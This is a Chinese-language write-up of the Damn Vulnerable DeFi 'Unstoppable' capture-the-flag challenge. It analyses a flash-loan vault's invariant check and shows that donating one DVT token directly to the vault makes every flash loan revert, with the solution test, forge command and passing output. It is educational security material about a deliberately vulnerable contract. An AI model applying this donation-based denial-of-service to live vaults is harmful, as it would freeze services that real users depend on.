 ## 题目 [Unstoppable](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/unstoppable)
有一个 token 化的金库合约，里面存放了一百万个 DVT 代币。在宽限期结束之前，它会免费提供闪电贷服务。  

为了在完全丢弃权限之前找出潜在的漏洞，开发者们决定在测试网上进行实况测试。为此，他们部署了一个监控合约，用于检查闪电贷功能的活跃状态。  

从只有 10 个 DVT 代币的余额开始，展示如何让这个金库合约停止运行。目标是让它无法继续提供闪电贷服务。  

**解释：** 题目的意思是需要让合约无法正常的提供闪电贷服务，即修改一些条件，导致即使正常调用闪电贷函数，也会失败。

## 合约分析
一共有两个合约文件 [UnstoppableVault](https://github.com/theredguild/damn-vulnerable-defi/blob/v4.0.0/src/unstoppable/UnstoppableVault.sol) 和 [UnstoppableMonitor](https://github.com/theredguild/damn-vulnerable-defi/blob/v4.0.0/src/unstoppable/UnstoppableMonitor.sol)。其中，`UnstoppableVault` 合约是提供闪电贷服务的金库，而 `UnstoppableMonitor` 合约则用于监控合约的闪电贷功能。重点在于 `UnstoppableVault` 合约中的 `flashLoan` 函数。
``` solidity
    function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }
```
函数中有四个检查条件：
1. `amount` 参数不能为零。
2. 借贷的代币必须是金库的标的代币，在这个例子中即为DVT代币。
3. `convertToShares(totalSupply)` 必须等于 `balanceBefore()`。
4. 闪电贷操作是否成功，通过借贷者合约的 `onFlashLoan` 方法返回的 `magic value` 进行验证。

其中，1、2、4 三个条件相对直观，我们重点分析第 3 个条件。涉及到的函数和变量如下：  
``` solidity
    // 标的代币（DVT）
    ERC20 public immutable asset;

    // 总份额（tDVT）
    uint256 public totalSupply;

    function totalAssets() public view override nonReadReentrant returns (uint256) {
        return asset.balanceOf(address(this));
    }

    function convertToShares(uint256 assets) public view virtual returns (uint256) {
        // 常见省 gas 方式：先将 totalSupply 存入内存，减少 SLOAD 操作。
        uint256 supply = totalSupply; 

        return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
    }
```
`convertToShares` 函数用于将资产数量转换为份额数量，通过公式 $\frac{\text{Total Assets}}{\text{Total Shares}} = \frac{\text{Assets}}{\text{Shares}}$ 计算出 $Shares$ 。因此，检查条件 3 的目的是验证合约的内部状态是否一致，确保 `totalSupply` 转化为的资产数量与金库中的实际资产总量一致，避免通过非正常手段操作合约资产。

不过，此处难道不是应该使用 `convertToAssets` 函数吗，将总份额转换为总资产数量。此处先存疑...    
## 题解
基于上述分析，我们可以得出解决方法：直接向金库合约中转入额外的DVT代币，从而打破代币数量的对应性，使检查条件失败，进而阻止闪电贷功能的运行。  

**测试代码：**
``` solidity
    function test_unstoppable() public checkSolvedByPlayer {
        require(token.transfer(address(vault), 1));
    }
```
**运行测试：**
```
forge test --mp test/unstoppable/Unstoppable.t.sol
```
**测试通过：**
```
Ran 2 tests for test/unstoppable/Unstoppable.t.sol:UnstoppableChallenge
[PASS] test_assertInitialState() (gas: 57390)
[PASS] test_unstoppable() (gas: 67067)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 17.81ms (4.26ms CPU time)
```

## 相关知识
### ERC-4626
ERC-4626 是一个标准化API，用于让用户控制并执行Vault功能，并通过ERC-20代币进行交互。该标准建立在ERC-20之上，核心功能包括向Vault存入资金、查询Vault内的资金状态、股份和资产的兑换，以及对Vault进行资金管理的功能（如存款、提款、铸币和赎回）。

更多内容可参考：  
[ERC-4626: Tokenized Vaults | eips.ethereum.org/](https://eips.ethereum.org/EIPS/eip-4626)  
[ERC-4626 Tokenized Vault Standard | ethereum.org](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/)

### ERC-3156
ERC-3156 定义了一个统一的闪电贷标准，旨在支持各种不同的借贷机制。许多协议提供闪电贷服务，如dYdX、Aave和Uniswap，但它们的接口各不相同。ERC-3156 的提出为开发者提供了一种标准化的方法，减少了学习成本，并增强了dApp的安全性。  

更多信息请参见：  
[ERC-3156: Flash Loans | eips.ethereum.org/](https://eips.ethereum.org/EIPS/eip-3156)


